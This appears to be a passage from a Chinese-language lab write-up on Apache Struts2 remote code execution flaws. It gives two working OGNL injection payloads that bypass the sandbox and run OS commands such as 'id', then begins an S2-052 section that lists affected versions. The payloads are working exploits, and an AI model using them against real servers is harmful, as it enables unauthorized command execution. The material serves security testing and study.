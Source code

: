 

借用S2-045的沙盒绕过方法，我改了一个POC。将如下POC填入表单`Gengster Name`中，提交即可直接回显命令执行的结果：

```plain
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```

![img](assets/1670312622786-e267813a-09dd-4bd8-9b12-1da70251fcc6.png)



当然，你也可以直接用s2-045的POC（你需要在Burp下进行测试）：

```plain
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

------

# S2-052 远程代码执行漏洞



影响版本: Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

漏洞详情:

- http://struts.apache.org/docs/s2-052.html
- https://yq.aliyun.com/articles/197926

## 测试环境搭建
